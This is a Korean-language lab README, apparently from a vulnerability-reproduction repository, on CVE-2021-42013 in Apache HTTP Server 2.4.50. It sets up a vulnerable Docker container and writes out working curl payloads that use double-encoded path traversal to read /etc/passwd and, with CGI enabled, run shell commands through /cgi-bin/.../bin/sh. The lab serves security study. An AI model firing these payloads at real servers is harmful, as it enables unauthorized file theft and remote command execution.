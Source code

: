 # Apache HTTP Server 2.4.50(CVE-2021-42013) 취약점 <br> CVE-2021-42013

Apache HTTP 서버 프로젝트는 UNIX, Windows를 포함하여 최신 운영 체제를 위한 오픈 소스 HTTP 서버를 개발하고 유지하는 프로젝트입니다. 

해당 취약점은 CVE-2021-41773 취약점을 불완전하게 수정하여 발생하는 취약점으로, 공격자는 경로 순회 취약점을 이용하여 서버의 파일을 모두 유출시킬 수 있습니다.

취약점은 Apache HTTP Server 2.4.49 및 2.4.50에 영향을 미치며 이전 버전에는 영향을 미치지 않습니다.

참고자료:
- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 취약한 환경 구성
Apache HTTP Server 2.4.50을 구성하고 취약점을 테스트 하려면 다음 명령어를 실행하세요.
```bash
docker compose build
docker compose up -d
```
서버가 시작되면 "It works!"를 통해 Apache HTTP Server에 대한 기본 페이지를 볼 수 있습니다. **[http://your-ip:8080]**

## Exploit
Apache HTTP Server 2.4.50은 이전 CVE-2021-41773 페이로드를 패치했지만,
http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd를 막는데 성공하였으나 보안 패치는 불완전했습니다.
```bash
curl -v --path-as-is http://your-ip:8080/images/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```
다음과 같은 페이로드를 통해 기존 패치를 우회하고 서버 내 파일을 유출시키는 것이 가능합니다.
이때 images는 임의의 디렉토리입니다.
<img width="997" alt="image" src="https://github.com/one3147/whitehat-school-vulhub/assets/103029974/ab4a36c4-2389-4656-8245-50a1e2e84519">

서버에서 모드 cgi 또는 cgid를 활성화하면 이 경로 순회 취약점으로 인해 임의의 명령 실행이 허용됩니다.
```bash
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```
<img width="488" alt="image" src="https://github.com/one3147/whitehat-school-vulhub/assets/103029974/27558ae5-d6bc-4b70-8de0-ecb3b2aeb879">
<img width="486" alt="image" src="https://github.com/one3147/whitehat-school-vulhub/assets/103029974/f824d596-ec8b-468e-bbac-374b54da4904">





